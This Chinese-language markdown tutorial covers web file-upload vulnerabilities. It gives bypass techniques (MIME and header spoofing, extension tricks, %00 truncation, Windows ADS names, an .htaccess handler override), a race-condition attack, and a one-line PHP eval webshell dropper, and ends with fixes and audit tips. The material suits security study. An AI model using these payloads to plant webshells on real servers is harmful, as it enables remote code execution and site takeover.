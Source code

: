 ```yaml
---
title: 文件上传漏洞
date: 2020-1-22 20:02:00
---
```

## 客户端校验

**检测**

Javascript校验后缀名（一般只校验后缀名）

**绕过**

开Burp代理，随便点击浏览“”选择文件，但是还没点击“上传”，就弹出警告框，说明流量没经过burp代理；所以非常可能是客户端JavaScript检测。

直接把木马改成`.gif`后缀上传，BurpSuite拦包修改后缀名

## 服务端校验

**校验**

1. MIME检测 文件头content-type字段校验（image/gif）

2. 文件内容头校验（GIF89a）

3. 文件扩展名校验  (白名单、黑名单)

4. 文件内容检测 (检测内容是否合法或含有恶意代码) 

**绕过**

前两种校验，在恶意脚本前添加GIF89a标识，一句话前后加图片数据混淆；直接把木马改成`.gif`后缀上传，BurpSuite拦包修改后缀名。

**黑名单绕过：**

找漏网之鱼：`cer、php3、php4`等

大小写绕过：`AsP、pHP`

文件后缀复写绕过：`.phphpp`

针对Windows系统：

上传不符合windows文件命名规则的文件名

```
test.php:1.jpg
test.php::$DATA
```

会被windows系统自动去掉不符合规则符号后面的内容

会被windows系统自动去掉不符合规则符号后面的内容

**白名单绕过：**

> %00截断 (PHP<5.3.4时 shell.php%00.jpg 可截断%00后的内容)
> 配合服务器中间件解析漏洞绕过

黑白名单通用，如果可上传修改 `.htaccess` 文件 (还能用于隐藏后门) 

```php
<FilesMatch "shell.jpg">
 SetHandler application/x-httpd-php
</FilesMatch>
//上传shell.jpg文件，将解析为php运行
```

**文件加载检测(文件内容检测)**

常见的是对图像进行二次渲染，一般是调用PHP 的GD库 

一个绕过GD库的Webshell生成器：

http://wiki.ioin.in/soft/detail/1q

https://github.com/RickGray/Bypass-PHP-GD-Process-To-RCE

## 竞争条件攻击

一些网站允许上传任意文件，然后检测文件是否包含Webshell，如果有则删除该文件。

> 服务器端在处理不同用户的请求时是并发进行的
>
> 如果并发处理不当或相关操作逻辑顺序设计的不合理时，将导致条件竞争漏洞

如这样一段代码

```php
<?php
	if(isset($_GET['src'])){
		copy($_GET['src'],$_GET['dst']);
      sleep(2);
		unlink($_GET['dst']);
	}
?>
```

它先把文件保存在本地，再检查，然后删除

在上传完成和安全检查删除它的间隙，攻击者用多线程不断的发起访问请求该文件

该文件就会被执行从而生成一个恶意shell

**竞争删除前生成shell流程：**

> 上传文件→访问执行文件，生成shell文件→删除不安全文件 	(多线程访问)

**create_shell.php**

```php
<?php
	fputs(fopen('../shell.php','w'),'<?php @eval($_POST[123]) ?>');
?>
```

**防御方案：**

对于文件上传，在将文件保存在本地前就进行相应的安全检查

## 修复建议

> 1、使用白名单限制可以上传的文件扩展名
>
> 2、注意0x00截断攻击（PHP更新到最新版本）
>
> 3、对上传后的文件统一随机命名，不允许用户控制扩展名
>
> 4、上传文件的存储目录禁用执行权限

**代码审计中关注以下函数**

```php
move_uploaded_file()	//将上传的文件移动到新位置
```

全局搜索`$_FILES`变量，定位到相关的上传过程查看过滤是否严格。